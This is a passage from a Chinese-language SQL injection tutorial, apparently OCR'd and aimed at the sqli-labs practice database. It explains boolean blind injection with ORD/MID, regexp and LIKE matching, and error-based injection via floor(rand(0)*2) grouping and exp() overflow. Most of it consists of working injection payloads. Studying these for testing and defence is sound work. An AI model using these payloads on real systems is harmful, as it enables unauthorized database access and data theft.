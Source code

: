3.ORD(MID((SELECT IFNULL(CAST(username AS CHAR),0x20)FROM security.users ORDER  BY id LIMIT 0,1),1,1))>98--+  作用：mid(a,b,c)从位置 b 开始，截取 a 字符串的 c 位   Ord()函数同 ascii()函数，将字符转为 ascii 值 

4.regexp 正则注入 正则注入介绍：http://www.cnblogs.com/lcamry/articles/5717442.html 

用法介绍：select user() regexp '^[a-z]'; 

作用：正则表达式的用法，user()结果为 root，regexp 为匹配 root 的正则表达式。 

第二位可以用 select user() regexp '^ro'来进行。

例：

1.select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));

2.select * from users where id=1 and 1=(user() regexp'^ri');

方法思路均是通过if构造判断条件，根据返回结果1或0进行判断

3.select * from users where id=1 and 1=(select 1 from information_schema.tables 

where table_schema='security' and table_name regexp '^us[a-z]' limit 0,1);

这里利用 select 构造了一个判断语句。我们只需要更换 regexp 表达式即可 

'^u[a-z]' -> '^us[a-z]' -> '^use[a-z]' -> '^user[a-z]' -> FALSE 

用 table_name regexp '^username$'来判断匹配是否结束，一般也可以用命名方式判断

注：limit作用的是select语句，而不是regexp，只要table_name中有的内容，用regexp都可以匹配到。



like匹配注入

用法：select users() like 'ro%'

总结函数

regexp,like,ascii,left,ord,mid

### 二、基于报错的SQL盲注

1.Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2)) a from information_schema.columns group by a;

解:此处有三个点，一是需要 concat 计数，二是 floor，取得 0 or 1，进行数据的 

重复，三是 group by 进行分组

以上语句可以简化为select count(*) from information_schema.tables group by concat(version(), 

floor(rand(0)*2)) 

若关键的表被禁用了则用select count(*) from (select 1 union select null union 

select !1) group by concat(version(),floor(rand(0)*2)) 

若rand被禁用了则用select min(@a:=1) from information_schema.tables group by concat(passwo 

rd,@a:=(@a+1)%2)



★select exp(~(select * FROM(SELECT USER())a)) //double 数值类型超出范围 
